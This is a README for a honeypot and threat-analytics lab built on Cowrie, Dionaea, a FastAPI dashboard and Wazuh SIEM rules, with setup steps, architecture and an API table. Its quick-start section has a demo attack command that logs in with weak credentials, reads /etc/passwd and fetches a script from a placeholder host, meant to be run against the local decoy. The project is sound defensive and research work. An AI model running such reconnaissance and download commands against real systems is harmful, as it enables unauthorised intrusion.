

# Multi-protocol Honeypot & Real-Time Threat Analytics

A deception-based intrusion detection lab: internet-facing decoy services (**Cowrie** for
SSH/Telnet, **Dionaea** for SMB/FTP/HTTP/malware) feed a custom **real-time analytics
pipeline** that detects, enriches, scores and visualises every attack — with a **Wazuh SIEM**
integration path for production.

Attackers think they've found a vulnerable server. Every login they try, every command they
run, and every payload they attempt to drop is captured, classified against MITRE ATT&CK, and
streamed to a live dashboard.



---

## Two ways to run it

| Mode | What runs | Use for |
|------|-----------|---------|
| **Local stack** (`docker compose`) | Cowrie + Dionaea + custom analytics service | development, demos, this repo's dashboard |
| **Production SIEM** (`scripts/`) | Honeypots + Wazuh Manager/Indexer/Dashboard across VMs/VPS | internet-exposed sensor with the full Wazuh stack |

Both share the same detection logic — the analytics service ports the exact rules in
[`config/cowrie_rules.xml`](config/cowrie_rules.xml) and [`config/dionaea_rules.xml`](config/dionaea_rules.xml)
that the Wazuh manager loads in production.

---

## Quick start (local)

Requires Docker Desktop / Docker Engine + Compose.

```bash
git clone https://github.com/Discord-05/honeypot-wazuh-project.git
cd honeypot-wazuh-project
cp .env.example .env            # optional: add threat-intel / alert keys
docker compose up -d --build
```

Open **http://localhost:8080**.

No live attackers yet? Click **▶ Simulate attack** on the dashboard (or
`curl -X POST "http://localhost:8080/api/simulate?sessions=10"`) to replay realistic attack
sessions from real-world scanner IPs so the charts, geo-map and enrichment populate.

Drive a **real** attack against the honeypot instead:

```bash
ssh admin@localhost -p 2222      # password: admin  (Cowrie accepts weak creds by design)
# then, inside the fake shell:
uname -a; cat /etc/passwd; wget http://example.com/x.sh
```

Watch it appear in the live feed within a second.

---

## Features

**Honeypots**
- Cowrie — medium-interaction SSH/Telnet, full fake shell, captures credentials, commands, TTY sessions, downloads
- Dionaea — SMB/FTP/HTTP/MSSQL/MySQL, captures exploit attempts and malware samples

**Analytics pipeline** (`ingest/`)
- Tails honeypot logs in real time and normalises events
- **Detection engine** — applies the project's Wazuh rules: severity levels, rule IDs, MITRE ATT&CK technique + tactic, brute-force correlation
- **Threat-intel enrichment** — GeoIP (ip-api), optional AbuseIPDB reputation + Tor flags
- **Live dashboard** — KPIs, activity chart, MITRE breakdown, attacker geo-map, top IPs/credentials/commands, WebSocket event feed
- **Alerting** — Telegram + email on high-severity events (optional)
- **Reporting** — auto-generated HTML/PDF-ready threat reports

**SIEM integration** (`config/`, `scripts/`)
- Custom Wazuh decoders/rules, agent config, all-in-one installer

---

## Architecture

```
                 attackers
                     │
        ┌────────────┴────────────┐
        ▼                         ▼
   ┌─────────┐               ┌─────────┐
   │ Cowrie  │  SSH/Telnet   │ Dionaea │  SMB/FTP/HTTP
   │ :2222/3 │               │  :445…  │
   └────┬────┘               └────┬────┘
        │  cowrie.json            │  dionaea.log
        └───────────┬─────────────┘   (shared Docker volumes)
                    ▼
        ┌───────────────────────────┐
        │   analytics service        │   FastAPI (ingest/)
        │  tail → detect → enrich →  │
        │  store(SQLite) → broadcast │
        └───────────┬───────────────┘
             REST + │ WebSocket
                    ▼
        ┌───────────────────────────┐
        │   live dashboard  :8080    │
        └───────────────────────────┘
```

Full detail: [docs/ARCHITECTURE.md](docs/ARCHITECTURE.md).
Server-side & cloud deployment (incl. full Wazuh SIEM): [docs/DEPLOYMENT.md](docs/DEPLOYMENT.md).

---

## API

| Endpoint | Purpose |
|----------|---------|
| `GET /api/summary` | KPI counters |
| `GET /api/events?limit=&min_level=` | recent events |
| `GET /api/alerts` | alerts grouped by rule |
| `GET /api/mitre` | MITRE technique breakdown |
| `GET /api/timeseries` | activity over time |
| `GET /api/ips` / `GET /api/geo` | enriched attacker IPs |
| `GET /api/credentials` / `GET /api/commands` | brute-force + command stats |
| `POST /api/simulate?sessions=N` | replay synthetic attack traffic |
| `GET /api/report` | download an HTML threat report |
| `WS /ws` | live event stream |

---

## Security notice

Honeypots are intentionally vulnerable. **Never** run them on a network you can't isolate, and
never expose the analytics dashboard (`:8080`) to the public internet without authentication in
front of it. See [docs/DEPLOYMENT.md](docs/DEPLOYMENT.md) for hardening guidance. For educational
and authorised research use only.
